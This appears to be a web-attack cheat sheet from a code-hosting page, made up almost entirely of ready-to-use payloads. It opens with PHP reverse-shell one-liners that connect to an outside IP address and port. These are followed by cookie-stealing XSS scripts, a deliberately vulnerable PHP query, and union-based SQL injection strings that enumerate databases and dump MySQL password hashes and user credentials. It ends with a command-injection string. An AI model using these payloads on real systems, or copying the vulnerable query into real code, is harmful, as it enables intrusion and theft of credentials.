 # web

PHP
---

Reverse shell one-liners:

<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>

<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>


XSS
---

 Use angle brackets instead of parentheses.

```javascript
<script>alert("XSS")</script>
<script>alert(document.cookie)</script>
```

SQL INJECTION
-------------

Vulenrable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

MySQL delimiter: `#`
SQL delimiter: `--

* Always true scenario:

`%' or '0'='0`

% will probably not be equal to anything so will be false
'0'='0' - always equal to true

* Figure out how many columns are there:

`‘ ORDER BY 1#`
`‘ ORDER BY 2#`

etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`


COMMAND INJECTION
-----------------

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`